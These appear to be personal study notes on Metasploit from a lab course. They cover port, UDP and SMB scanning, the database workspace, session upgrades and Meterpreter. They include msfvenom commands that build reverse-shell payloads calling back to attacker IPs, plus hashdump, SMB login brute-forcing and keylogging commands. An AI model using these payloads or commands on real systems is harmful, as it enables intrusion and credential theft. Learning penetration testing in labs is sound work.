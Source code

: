 ### Port Scanning 
- first enter `msfconsole`
  
  ```bash
  search portscan
  ```
  
- list potential port scanning modules
  
  ```bash
   use #
   ```
  
- in this case, we are using `scanner/portscan/tcp`
  
  ```bash
  show options
  ```
  
    - CONCURRENCY: Number of targets to be scanned simultaneously.
    - PORTS: Port range to be scanned. Please note that 1-1000 here will not be the same as using Nmap with the default configuration. Nmap will scan the 1000 most used ports, while Metasploit will scan port numbers from 1 to 10000.
    - RHOSTS: Target or target network to be scanned.
    - THREADS: Number of threads that will be used simultaneously. More threads will result in faster scans.
- nmap works inside the msfconsole

  
___


### UDP service Identificaftion
- `scanner/discovery/udp_sweep`
- this module will allow you to quickly identify services running over the UDP (User Datagram Protocol). This module will not conduct an extensive scan of all possible UDP services but does provide a quick way to identify services such as DNS or NetBIOS.


  ```bash
  setg RHOSTS [target_ip]
  ```


  - set the target ip globally

  ```bash
    run
  ```
  
  - runs the scanner
 
    
___


### SMB Scans
- SMB (Server Message Block) is a network protocol used for sharing files, printers, and other resources between computers.
- `scanner/smb/smb_version` or `scanner/smb/smb_enumshares`
- find SMB server details and list shared resources
- `http_version` module will find what http version, must change RPORT to the one you want to scan 
- `smb_login` brute forces the login
  - must `show options` and set up the wordlist file and the username then run


___


### Metasploit Database
- in an actual penetration testiing engagement, there will be likely have several targets. Metasploit has a database function to simplify project management


 ```bash
  systemctl start postgresql
  ```
 ```bash
  msfdb init
  ```
- launch `msfconsole`
  
 ```bash
  db_status
  ```

  check database status

 ```bash
  workspace
  ```

  list avaiable workspaces
  `-a` add a workspace
  `-d` delete a workspace
  EX:

 ```bash
  workspace -a tryhackme
  ```

 ```bash
  workspace [name]
  ```

  to switch between workspacaes

  
 ```bash
  workspace -h
  ```


  list avaiable options    
- `db_nmap` runs nmap and import the results to the metaspolit database
- resulted information can be retrived from `hosts` and `services`. the `-h` flag will give more options


___


### Example using the database
- pick a vulnerability scanner

 ```bash
  hosts -R
  ```

  uses the data we collected from db_nmap to import the RHOSTS value
- `run` or `exploit`
  
  ```bash
  services -S [service name]
  ```
  
  `-S` parameter to search for services in the envirement
  
  - HTTP: Could potentially host a web application where you can find vulnerabilities like SQL injection or Remote Code Execution (RCE). 
  - FTP: Could allow anonymous login and provide access to interesting files. 
  -  SMB: Could be vulnerable to SMB exploits like MS17-010
  - SSH: Could have default or easy to guess credentials
  -  RDP: Could be vulnerable to Bluekeep or allow desktop access if weak credentials were used.


___


### Vulnerability Scanning
- Identifiying a 'low hanging fruit' aka easily indentifiable and exploitable vulnerabilities that could allow us to gain a foothold on a system.
- thus, getting good at scanning and finding out what the target system's services are running and use the search function to search for exploits etc...
- `info` on any modules to have a better understanding of its use and purpose


___


### Exploitation
- Background the Session:
After getting initial access to a system, you "background" the current session to make it inactive but still accessible for upgrades.
`ctrl+z`

- Upgrade to Meterpreter Shell:
The `sessions -u [session ID]` command upgrades the current session to a Meterpreter shell.
Meterpreter is a powerful post-exploitation tool included with Metasploit. It gives you advanced capabilities like file searching, data collection, and system control.

- Check for Sessions:
Use `sessions` to list all available sessions. Here, session ID 2 now runs the Meterpreter shell.

- Switch to the Upgraded Session:
The command `sessions -i 2` interacts with session ID 2.

- Search for File:
Use `search -f [file]` to look for the file on the compromised system. It finds and gives you the file path.

- Read the File Content:
Use cat with double quotes around the file path to display the content

- `windows/gather/hashdump`
- needs to set to a meterpreter session to work


___


### Msfvenom
- replaced Msfpayload and Msfencode, allows you to generate payloads
- allow you to access all payloads available in the Metasploit framework. In many different formats too (PHP, exe, dll, etc...)

```bash
msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php
```
1. `-p php/reverse_php`: Specifies the payload type. In this case, it's a PHP-based reverse shell.
  - `msfvenom -l payloads`: lists all available payloads
  - `msfvenom --list formats`: lists all avaiable output formats

2. `LHOST=10.0.2.19`: The attacker's IP address where the reverse shell will connect.

3. `LPORT=7777`: The port on the attacker's machine that the reverse shell will connect to.

4. `-f raw`: Specifies the output format. raw means the payload will be written in plain PHP code.

5. `> reverse_shell.php`: Redirects the generated payload into a file named reverse_shell.php.


___


### Example of a basic step for msfvenom (reverse shell exploit)
1. attacker creates a payload 
EX: 

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.115.52 LPORT=8888 -f elf > rshell.elf
```

2. the target must have that `rshell.elf` file on their machine (by upload or downloading from the target system etc...)
3. use `exploit/multi/handler` to receive incoming connection from the reverse shell file of the target machine
4. target excutes the `rshell.elf` file
5. we're in


___


### Meterpreter
- it runs on the target system but is not installed on it
- it runs in memory and not on its disk of the target system
- it will be seen as a process and not a file
- it encrypts with the server where metasploit runs, so if the target does not decrypt the encrypted traffic (ex: HTTPS) coming in and out, IPS and IDS solutions will not able to detect it
- `getpid` in meterpreter will get the process id of meterpreter
- will establish an encrypted TLS channel with the attack's system
- most antivirus software will detect it
- `help` for commands in meterpreter


___


### some common meterpreter commands that I don't recall right away but will probably need to use
- `Migrate`: can migrate to a different process (like word.exe, notepad.exe) and act like a keylogger, some versions will also offer `keyscan_start`, `keyscan_stop`, `keyscan_dump` right out of the box
- `hashdump` list content of the SAM database
- `search` locate files
- `shell` will launch a command-line shell on the target system
- `load` additional tools
- when using `cat "path to file"` make sure to include double quotes

[Back](../CyberSecurity101.md)
